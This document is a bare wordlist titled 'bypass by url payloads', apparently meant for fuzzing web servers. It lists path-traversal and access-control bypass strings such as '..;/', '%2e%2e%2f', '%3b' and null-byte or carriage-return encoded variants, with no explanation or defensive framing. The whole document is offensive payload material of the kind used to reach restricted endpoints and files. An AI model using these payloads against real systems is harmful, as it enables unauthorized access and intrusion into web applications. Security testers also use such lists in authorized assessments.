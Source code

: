 bypass by url payloads

#
#?
%09
%09%3b
%09..
%09;
%20
%23
%23%3f
%252f%252f
%252f/
%2e%2e
%2e%2e/
%2f
%2f%20%23
%2f%23
%2f%2f
%2f%3b%2f
%2f%3b%2f%2f
%2f%3f
%2f%3f/
%2f/
%2f;?
%2f?;
%3b
%3b%09
%3b%2f%2e%2e
%3b%2f%2e%2e%2f%2e%2e%2f%2f
%3b%2f%2e.
%3b%2f..
%3b/%2e%2e/..%2f%2f
%3b/%2e.
%3b/%2f%2f../
%3b/..
%3b//%2f../
%3f%23
%3f%3f
%3f.php
..
..%00/
..%00/;
..%00;/
..%09
..%0d/
..%0d/;
..%0d;/
..%5c/
..%ff/
..%ff/;
..%ff;/
../
..;%00/
..;%0d/
..;%ff/
..;\
..;\;
..\
..\;
.html
.json
/
/#
/%20
/%20#
/%20%23
/%23
/%252e%252e%252f/
/%252e%252e%253b/
/%252e%252f/
/%252e%253b/
/%252e/
/%252f
/%2e%2e
/%2e%2e%2f/
/%2e%2e%3b/
/%2e%2e/
/%2e%2f/
/%2e%3b/
/%2e%3b//
/%2e/
/%2e//
/%2f
/%3b/
/..
/..%2f
/..%2f..%2f
/..%2f..%2f..%2f
/../
/../../
/../../../
/../../..//
/../..//
/../..//../
/../..;/
/.././../
/../.;/../
/..//
/..//../
/..//../../
/..//..;/
/../;/
/../;/../
/..;%2f
/..;%2f..;%2f
/..;%2f..;%2f..;%2f
/..;/
/..;/../
/..;/..;/
/..;//
/..;//../
/..;//..;/
/..;/;/
/..;/;/..;/
/./
/.//
/.;/
/.;//
//
//..
//../../
//..;
//./
//.;/
///..
///../
///..//
///..;
///..;/
///..;//
//;/
/;/
/;//
/;?
/;x
/;x/
/?
/?;
/x/../
/x/..//
/x/../;/
/x/..;/
/x/..;//
/x/..;/;/
/x//../
/x//..;/
/x/;/../
/x/;/..;/
;
;%09
;%09..
;%09..;
;%09;
;%2F..
;%2f%2e%2e
;%2f%2e%2e%2f%2e%2e%2f%2f
;%2f%2f/../
;%2f..
;%2f..%2f%2e%2e%2f%2f
;%2f..%2f..%2f%2f
;%2f..%2f/
;%2f..%2f/..%2f
;%2f..%2f/../
;%2f../%2f..%2f
;%2f../%2f../
;%2f..//..%2f
;%2f..//../
;%2f..///
;%2f..///;
;%2f..//;/
;%2f..//;/;
;%2f../;//
;%2f../;/;/
;%2f../;/;/;
;%2f..;///
;%2f..;//;/
;%2f..;/;//
;%2f/%2f../
;%2f//..%2f
;%2f//../
;%2f//..;/
;%2f/;/../
;%2f/;/..;/
;%2f;//../
;%2f;/;/..;/
;/%2e%2e
;/%2e%2e%2f%2f
;/%2e%2e%2f/
;/%2e%2e/
;/%2e.
;/%2f%2f../
;/%2f/..%2f
;/%2f/../
;/.%2e
;/.%2e/%2e%2e/%2f
;/..
;/..%2f
;/..%2f%2f../
;/..%2f..%2f
;/..%2f/
;/..%2f//
;/../
;/../%2f/
;/../../
;/../..//
;/.././../
;/../.;/../
;/..//
;/..//%2e%2e/
;/..//%2f
;/..//../
;/..///
;/../;/
;/../;/../
;/..;
;/.;.
;//%2f../
;//..
;//../../
;///..
;///../
;///..//
;?
;x
;x/
;x;
?
?#
?.php
?;
??
///
/%2f/
//%2f
%2f/%2f
%2f%2f%2f
%2f// 
